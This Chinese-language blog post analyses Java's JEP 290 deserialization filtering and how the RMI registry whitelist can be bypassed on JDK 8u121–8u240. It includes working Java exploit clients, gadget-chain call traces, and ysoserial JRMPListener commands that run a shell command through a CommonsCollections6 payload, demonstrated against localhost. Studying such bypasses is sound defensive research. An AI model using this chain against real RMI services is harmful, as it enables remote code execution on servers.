








作者: H3rmesk1t@D1no
JEP 290是Java底层为了缓解反序列化攻击提出的一种解决方案, 理想状态是让开发者只反序列化其想反序列化的类, 这样使用类似CC链这样的, 就会因为无法反序列化Tranformer、HashMap等, 从而没法触发漏洞.
JEP 290主要描述了如下几个机制:
JEP 290过滤规则如下:

JEP 290在JDK 9中加入, 但在JDK 6,7,8一些高版本中也添加了, 具体为JDK 8u121、JDK 7u131和JDK 6u141. 官方说明

这里用8u311和8u66来做比较, 示例代码如下:
package org.h3rmesk1t.jep290;
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;
/**
* @Author: H3rmesk1t
* @Data: 2022/1/30 7:52 下午
*/
public class RMIServer {
// 参数配置
public static String HOST = "localhost";
public static int PORT = 8888;
public static String RMI_PATH = "/demo";
public static final String RMI_NAME = "rmi://" + HOST + ":" + PORT + RMI_PATH;
public static void main(String[] args) {
try {
// 注册RMI端口
LocateRegistry.createRegistry(PORT);
// 创建一个服务
RemoteImpl remoteImpl = new RemoteImpl();
// 服务命名绑定
Naming.bind(RMI_NAME, remoteImpl);
} catch (Exception e) {
e.printStackTrace();
}
}
}
package org.h3rmesk1t.jep290;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
/**
* @Author: H3rmesk1t
* @Data: 2022/1/30 7:53 下午
*/
public class RemoteImpl extends UnicastRemoteObject implements RemoteInterface {
protected RemoteImpl() throws RemoteException {
}
@Override
public String demo() throws RemoteException {
return "Hello, h3rmesk1t!";
}
@Override
public String demo(Object object) throws RemoteException {
return object.getClass().getName();
}
}
package org.h3rmesk1t.jep290;
import java.rmi.Remote;
import java.rmi.RemoteException;
/**
* @Author: H3rmesk1t
* @Data: 2022/1/30 7:53 下午
*/
public interface RemoteInterface extends Remote {
public String demo() throws RemoteException;
public String demo(Object object) throws RemoteException;
}
利用ysoserial项目中的ysoserial.exploit.RMIRegistryExploit来进行攻击, 可以发现当jdk8版本大于8u121时来启动RMIServer, 会显示攻击失败; 而低于8u121时, 则可以成功攻击, 弹出计算器.


JEP 290涉及的核心类有: ObjectInputStream类, ObjectInputFilter接口, Config静态类以及Global静态类. 其中Config类是ObjectInputFilter接口的内部类, Global类又是Config类的内部类.
跟进之前测试时的报错信息, 跟进java.io.ObjectInputStream类, JEP 290进行过滤的具体实现方法是在ObjectInputStream类中增加了一个serialFilter属性和一个filterChcek函数, 两者搭配来实现过滤.
在ObjectInputStream类中含有两个构造函数, 需要注意的是, 在这两个构造函数中都会给属性serialFilter赋值为Config.getSerialFilterFactorySingleton().apply(null, Config.getSerialFilter()).

跟进Config.getSerialFilter(), 可以看到ObjectInputFilter.Config.getSerialFilter()返回ObjectInputFilter#Config静态类中的serialFilter静态字段.

serialFilter属性是一个ObjectInputFilter接口类型, 并且这个接口声明了一个checkInput方法.


在filterCheck函数中, 函数逻辑流程大致可以分为三步:
serialFilter的属性值是否为null, 当不为null时则会进行过滤操作.serialFilter的属性值不为null后, 创建一个FilterValues对象, 并把需要检查的信息封装进去, 再调用serialFilter.checkInput方法进行判断, 并返回ObjectInputFilter.Status类型的返回值null或ObjectInputFilter.Status.REJECTED时会抛出异常.
该接口是JEP 290中实现过滤操作的一个最基础的接口, 在低于JDK 9的时候的全限定名是sun.misc.ObjectInputFIlter, JDK 9及以上是java.io.ObjectInputFilter. ObjectInputFilter接口的结构大致分为checkInput函数、Config静态类、FilterInfo接口、Status枚举类.

Config静态类是ObjcectInputFilter接口的一个内部静态类. 在初始化时, 会将Config.serialFilter赋值为一个Global对象, 而ObjectInputStream的构造函数中取的就是 Config.serialFilter这个静态字段, 所以设置了Config.serialFilter这个静态字段就相当于设置了ObjectInputStream类全局过滤器.

这里可以通过配置JVM的jdk.serialFilter或者%JAVA_HOME%\conf\security\java.security文件的jdk.serialFilter字段值, 来设置Config.serialFilter, 也是设置了全局过滤. 另外还有就是一些框架, 在开始的时候设置也会设置Config.serialFilter, 来设置ObjectInputStream类的全局过滤, 例如weblogic在启动的时候会设置Config.serialFilter为WebLogicObjectInputFilterWrapper对象.
Config#createFilter会进一步调用Global.createFilter方法, 主要功能就是将传入的JEP 290规则字符串解析到Global对象的filters字段上, 并且返回这个Global对象.

Config#getSerialFilter主要功能就是返回Config#serialFilter的字段值.

Global静态类是Config类中的一个内部静态类, 其重要特征是实现了ObjectInputFilter接口中的checkInput方法. 所以Global类可以直接赋值到ObjectInputStream.serialFilter上.
Global中的构造函数会解析JEP 290规则为对应的lambda表达式, 然后添加到Global.filters.

filters字段作为一个函数列表, 用来后续过滤操作.
checkInput方法会遍历filters来检测要反序列化的类.
在核心类中的ObjectInputStream类中说过, 配置过滤器其实就是设置ObjectInputStream类中的serialFilter属性. 根据上文提到的过滤配置规则也不难看出过滤器的类型有两种:
JVM属性来配置的全局过滤器.ObjectInputStream的serialFilter属性来配置的局部过滤器.全局过滤器实际上就是通过设置Config静态类中的serialFilter静态字段值来进行过滤. 上文中也提到了在ObjectInputStream的两个构造方法中都会serialFilter属性赋值Config.getSerialFilterFactorySingleton().apply(null, Config.getSerialFilter()), 通过调用链可以知道最后返回的是Config#serialFilter.
上文中提到了Config静态类初始化的时候会解析jdk.serailFilter属性设置的JEP 290规则到一个Global对象的filters属性, 并且会将这个Global对象赋值到Config静态类的serialFilter属性上. 因此, Config.serialFilter值默认是解析jdk.serailFilter属性得到得到的Global对象.
局部过滤器实际上是在new objectInputStream对象之后通过改变单个ObjectInputStream对象的serialFilter字段值来实现局部过滤, 通常有两种方法来达到该目的:
ObjectInputStream对象的setInternalObjectInputFilter方法(低于JDK 9的时候是getInternalObjectInputFilter和setInternalObjectInputFilter, JDK 9以及以上是getObjectInputFilter和setObjectInputFIlter).
Config静态类的setObjectInputFIlter方法.
在RMI中采用的是局部过滤的机制, 对于RMI的学习具体可以看看之前的Java安全学习-RMI学习或者官方文档
RegistryImpl作为一个特殊的对象, 导出在RMI服务端, 客户端调用的bind、lookup、list等操作, 实际上是操作RegistryImpl的bindings这个Hashtable. RegistryImpl特殊在导出过程中生成的Target对象是一个"定制"的Target对象, 具体体现在:
Target中id的objNum是固定的, 为ObjID.REGISTRY_ID, 也就是0.Target中disp是filter为RegisryImpl::RegistryFilter, skel为RegsitryImpl_skel的UnicastServerRef对象.Target中stub为RegistryImpl_stub.
DGCImpl对象和RegistryImpl对象类似都是一个特殊的对象, 其Target对象的特殊体现在:
Target中id的objNum是固定的, 为ObjID.DGC_ID, 也就是2.Target中disp是filter为DGCImpl::DGCFilter, skel为DGCImpl_skel的 UnicastServerRef对象.Target中stub为DGC_stub.RegistryImpl中含有一个静态字段registryFilter, 所以在new RegistryImpl对象的时候会调用initRegistryFilter方法进行赋值.
private static final ObjectInputFilter registryFilter = (ObjectInputFilter)AccessController.doPrivileged(RegistryImpl::initRegistryFilter);
跟进RegistryImpl#initRegistryFilter方法, 首先会读取JVM的sun.rmi.registry.registryFilter的属性, 当其为null时会读取%JAVA_HOME%\conf\security\java.security配置文件中的sun.rmi.registry.registryFilter字段来得到JEP 290形式的pattern, 再调用ObjectInputFilter.Config.createFilter2创建filter并返回.

这里用jdk8u311的java.security文件来示例.


需要注意的是, 存在一个函数RegistryImpl#registryFilter, 其会先判断静态字段registryFilter是否为null来决定是使用用户自定义的过滤规则, 还是使用默认的白名单规则. 如果不是null的话, 会先调用用户自定义的过滤规则进行检查, 接着判断检查结果, 如果不为UNDECIDED就直接返回检查的结果, 否则再使用默认的白名单检查.

DGCImpl中含有一个静态字段dgcFilter, 所以在new DGCImpl对象的时候会调用initDgcFilter方法进行赋值.

跟进DGCImpl#initDgcFilter方法, 首先会读取JVM的sun.rmi.transport.dgcFilter的属性, 当其为null时会读取%JAVA_HOME%\conf\security\java.security配置文件中的sun.rmi.transport.dgcFilter字段来得到JEP 290形式的pattern, 再调用ObjectInputFilter.Config.createFilter创建filter并返回.

这里用jdk8u311的java.security文件来示例.

在DGCImpl中存在一个和RegistryImpl#registryFilter函数类似的函数DGCImpl#checkInput, 其会先判断DGCImpl#dgcFilter字段是否为null, 从而来决定是使用用户自定义的过滤规则, 还是使用默认的白名单规则. 如果不是null的话, 会先调用用户自定义的过滤规则进行检查, 接着判断检查结果, 如果不为UNDECIDED就直接返回检查的结果, 否则再使用默认的白名单检查.

在RMI中JEP 290主要是在远程引用层之上进行过滤的, 所以其过滤作用对Server和Client的互相攻击无效(完成和Registry通信之后, 客户端和服务端的相互通信就到了远程引用层和传输层).

在RegistryImpl#registryFilter中的白名单内容有:
在DGCImpl#checkInput中的白名单内容有:
只要反序列化的类不是白名单中的类, 便会返回REJECTED操作符, 表示序列化流中有不合法的内容, 直接抛出异常.
在RegistryImpl#registryFilter中的白名单中可以看到该类, 它也是RMIServer或者RMIClient和Registry通信的基础. 当我们在执行lookup、bind等操作时往往先会获取一个Registry, 示例代码如下:
package org.h3rmesk1t.jep290;
import org.h3rmesk1t.rmi.RemoteInterface;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
/**
* @Author: H3rmesk1t
* @Data: 2022/1/30 7:53 下午
*/
public class RMIClient {
public static void main(String[] args) throws Exception {
// 获取远程对象实例
// RemoteInterface stub = (RemoteInterface) Naming.lookup("//localhost:4444/demoCaseBegin");
// 获取远程对象实例
Registry registry = LocateRegistry.getRegistry("localhost", 7777);
org.h3rmesk1t.rmi.RemoteInterface stub = (RemoteInterface) registry.lookup("demo");
// 方法调用
System.out.println("方法调用结果: " + stub.demoCaseBegin(stub.openCalculatorObject()));
}
}
跟进LocateRegistry#getRegistry方法, 先用TCPEndpoint封装Registry的host、port等信息, 然后用UnicastRef封装了liveRef, 最终获取到一个在其中封装了一个UnicastRef对象的RegistryImpl_Stub对象.

接着将断点下在lookup处, 看看Client中的stub对象是如何连接Registry的. 跟进后不难看出, 其连接过程是先通过UnicastRef的newCall方法发起连接, 然后把要绑定的对象发送到Registry. 因此, 如果我们可以控制UnicastRef#LiveRef所封装的host、port等信息, 便可以发起一个任意的JRMP连接请求, 这个trick点和ysoserial中的payloads.JRMPClient是相同的原理.

RemoteObject实现了Remote和Serializable接口, 而Remote又是RegistryImpl#registryFilter中白名单的内容, 因此它及其子类是可以通过白名单检测的. 在后续分析中, 利用的正是RemoteObject#readObject方法. 其最后的ref.readExternal(in)中的ref正好是一个UnicastRef对象.

跟进UnicastRef#readExternal方法, 其会进而调用LiveRef#read方法.

跟进LiveRef#read方法, 在该方法中先会调用TCPEndpoint#readHostPortFormat方法读出序列化流中的host和port相关信息, 然后将其重新封装成一个LiveRef对象, 并将其存储到当前的ConnectionInputStream上.

跟进ConnectionInputStream#saveRef方法, 其建立了一个TCPEndpoint到ArrayList<LiveRef>的映射关系.

回到前面的RemoteObject#readObject方法, 这里的readObject是在RegistryImpl_Skle#dispatch中的readObject方法触发来的.

在服务端触发了反序列化之后, 继续往下走, 调用StreamRemoteCall#releaseInputStream方法, 这里的this.in便是之前谈到的存储在LiveRef对象的那个ConnectionInputStream对象, 在这里会调用ConnectionInputStream#registerRefs方法.

跟进ConnectionInputStream#registerRefs, 这里就会发现会根据之前在ConnectionInputStream#saveRef方法建立的映射关系来提取相应的值, 然后传入到DGCClient#registerRefs方法中.

跟进DGCClient#registerRefs方法, 在这里可以看到, DGCClient向恶意的JRMP服务端发起lookup连接.

在上文对UnicastRef和RemoteObject两个类的分析中可以发现:
RemoteObject类及其子类对象可以被bind或者lookup到Registry, 且在白名单之中.RemoteObject类及其没有实现readObject方法的子类经过反序列化可以通过内部的UnicastRef对象发起JRMP请求连接恶意的Server.至此, ByPass JEP-290的思路就非常明确了:
ysoserial开启一个恶意的JRMPListener.RemoteObject中的UnicastRef对象(封装了恶意Server的host、port等信息).Client或者Server向Registry发送这个RemoteObject对象, Registry触发readObject方法之后会向恶意的JRMP Server发起连接请求.JRMPListener.Registry触发反序列化利用链如下:
客户端发送数据 ->...
UnicastServerRef#dispatch –>
UnicastServerRef#oldDispatch –>
RegistryImpl_Skle#dispatch –> RemoteObject#readObject
StreamRemoteCall#releaseInputStream –>
ConnectionInputStream#registerRefs –>
DGCClient#registerRefs –>
DGCClient$EndpointEntry#registerRefs –>
DGCClient$EndpointEntry#makeDirtyCall –>
DGCImpl_Stub#dirty –>
UnicastRef#invoke –> (RemoteCall var1)
StreamRemoteCall#executeCall –>
ObjectInputSteam#readObject –> "demo"
ByPass JEP-290的关键在于: 通过反序列化将Registry变为JRMP客户端, 向JRMPListener发起JRMP请求.

这里还需要注意的一点就是需要找到一个类实现类RemoteObject方法.

测试代码如下:
package org.h3rmesk1t.jep290.bypass8u230;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
/**
* @Author: H3rmesk1t
* @Data: 2022/2/4 2:13 上午
*/
public class RMIRegistry {
public static void main(String[] args) throws RemoteException {
LocateRegistry.createRegistry(2222);
System.out.println("RMI Registry Start...");
while (true);
}
}
package org.h3rmesk1t.jep290.bypass8u230;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;
/**
* @Author: H3rmesk1t
* @Data: 2022/2/4 2:15 上午
*/
public class RMIClient {
public static void main(String[] args) throws RemoteException, AlreadyBoundException {
Registry registry = LocateRegistry.getRegistry(2222);
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 9999);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
registry.bind("demo", obj);
}
}
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'

JDK8u231版本及以上的DGCImpl_Stub#dirty方法中多了一个setObjectInputFilter的过程, 导致JEP 290重新可以check到.

在ByPass 8u121~8u230的时候, UnicastRef类用了一层包装, 通过DGCClient向JRMPListener发起JRMP请求, 而在jdk8u231版本及以上的DGCImpl_Stub#dirty方法中多了一个setObjectInputFilter的过程, 此时又会被JEP290 check到. ByPass 8u231~8u240的Gadget如下:
客户端发送数据 –> 服务端反序列化(RegistryImpl_Skle#dispatch)
UnicastRemoteObject#readObject –>
UnicastRemoteObject#reexport –>
UnicastRemoteObject#exportObject –> overload
UnicastRemoteObject#exportObject –>
UnicastServerRef#exportObject –> …
TCPTransport#listen –>
TcpEndpoint#newServerSocket –>
RMIServerSocketFactory#createServerSocket –> Dynamic Proxy(RemoteObjectInvocationHandler)
RemoteObjectInvocationHandler#invoke –>
RemoteObjectInvocationHandler#invokeMethod –>
UnicastRef#invoke –> (Remote var1, Method var2, Object[] var3, long var4)
StreamRemoteCall#executeCall –>
ObjectInputSteam#readObject –> "demo"
首先跟进UnicastRemoteObject#readObject方法, 在最后继续调用UnicastRemoteObject#reexport方法, 这里通过判断有无设置csf和ssf来分别调用两种重载方法.


由于在ByPass的exploit中会设置ssf, 这里跟进else中的exportObject方法. 跟进UnicastRemoteObject#exportObject方法, 这里把port、csf、ssf作为构造方法参数传入UnicastServerRef2.

跟进UnicastServerRef2方法, 发现其内部封装了一层LiveRef.

继续回到上一步, 跟进重载的UnicastRemoteObject#exportObject方法, 继续调用UnicastServerRef#exportObject方法, 这里在之前分析RMI的文章中有分析过, 大致流程为创建RegistryImpl_Stub、RegistryImpl_Skel对象, 最终调用到TCPTransport#listen方法创建监听栈.
TCPTransport#listen 方法创建监听栈.


跟进TCPTransport#listen方法, 创建一个TCPEndpoint对象后, 进一步调用TCPEndpoint#newServerSocket方法, 这里有一层动态代理, 通过RemoteObjectInvocationHandler代理RMIServerSocketFactory接口, 然后把生成的代理对象设置为该ssf.


跟进RemoteObjectInvocationHandler#invoke方法, 在if-else判断中所有if条件均不成立, 调用到RemoteObjectInvocationHandler#invokeRemoteMethod方法, 由于此处的ref可控, 将其设置为UnicastRef后, 调用UnicastRef#invoke方法.


跟进UnicastRef#invoke方法中, Registry向JRMPListener发起JRMP请求, 进行数据交互, 会成功调用到StreamRemoteCall#executeCall方法.

在StreamRemoteCall#executeCall方法中, 反序列化JRMPListener的Payload, 由于这里获取到InputStream之后并没有设置JEP 290的filter, 因此成功ByPass.

需要注意的是, 本地在bind或者rebind一个对象的时候, 在序列化对象的时候会来到MarshalOutputStream#replaceObject方法. 如果这个对象没有继承RemoteStub的话, 原先的UnicastRemoteObject会被转化成RemoteObjectInvocationHandler, 服务端也就无法触发UnicastRemoteObject#readObject方法. 这里可以采用重写RegistryImpl#bind方法, 在序列化之前通过反射ObjectInputStream, 修改enableReplace为false


测试代码如下:
package org.h3rmesk1t.jep290.bypass8u230;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
/**
* @Author: H3rmesk1t
* @Data: 2022/2/4 2:13 上午
*/
public class RMIRegistry {
public static void main(String[] args) throws RemoteException {
LocateRegistry.createRegistry(6666);
System.out.println("RMI Registry Start...");
while (true);
}
}
package org.h3rmesk1t.jep290.bypass8u240;
import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.io.ObjectOutput;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.*;
import java.util.Random;
/**
* @Author: H3rmesk1t
* @Data: 2022/2/4 3:31 上午
*/
public class RMIServer {
public static void main(String[] args) throws Exception {
UnicastRemoteObject payload = getPayload();
Registry registry = LocateRegistry.getRegistry(6666);
bindReflection("demo", payload, registry);
}
static UnicastRemoteObject getPayload() throws Exception {
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("localhost", 9999);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");
RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
RMIServerSocketFactory factory = (RMIServerSocketFactory) Proxy.newProxyInstance(
handler.getClass().getClassLoader(),
new Class[]{RMIServerSocketFactory.class, Remote.class},
handler
);
Constructor<UnicastRemoteObject> constructor = UnicastRemoteObject.class.getDeclaredConstructor();
constructor.setAccessible(true);
UnicastRemoteObject unicastRemoteObject = constructor.newInstance();
Field field_ssf = UnicastRemoteObject.class.getDeclaredField("ssf");
field_ssf.setAccessible(true);
field_ssf.set(unicastRemoteObject, factory);
return unicastRemoteObject;
}
static void bindReflection(String name, Object obj, Registry registry) throws Exception {
Field ref_filed = RemoteObject.class.getDeclaredField("ref");
ref_filed.setAccessible(true);
UnicastRef ref = (UnicastRef) ref_filed.get(registry);
Field operations_filed = RegistryImpl_Stub.class.getDeclaredField("operations");
operations_filed.setAccessible(true);
Operation[] operations = (Operation[]) operations_filed.get(registry);
RemoteCall remoteCall = ref.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
ObjectOutput outputStream = remoteCall.getOutputStream();
Field enableReplace_filed = ObjectOutputStream.class.getDeclaredField("enableReplace");
enableReplace_filed.setAccessible(true);
enableReplace_filed.setBoolean(outputStream, false);
outputStream.writeObject(name);
outputStream.writeObject(obj);
ref.invoke(remoteCall);
ref.done(remoteCall);
}
}
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'

JDK8u241在RemoteObjectInvocationHandler#invokeRemoteMethod中声明要调用的方法的类, 必须实现Remote接口, 而RMIServerSocketFactory类没有实现该接口, 于是会直接抛出异常无法调用.

学习时找ysoserial的现成jar包找了半天, 这里挂个ysoserial下载链接(但愿不会寄了)方便后续学习和复习时用.
在上文分析的攻击RMI服务端的绕过方法, 网上有一些现成的工具, 比如: